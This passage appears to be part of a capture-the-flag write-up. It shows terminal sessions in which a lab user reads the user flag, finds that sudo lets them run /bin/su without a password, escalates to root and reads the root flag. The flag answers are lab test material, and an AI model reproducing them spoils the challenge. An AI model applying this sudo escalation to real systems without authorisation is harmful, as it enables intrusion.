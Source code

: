 ```bash
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt
supernootnoot
nyan@ubuntu:~$
```

2. What is the root.txt
```
congratulations!!!!
```
```bash
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/nyan# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
congratulations!!!!
```
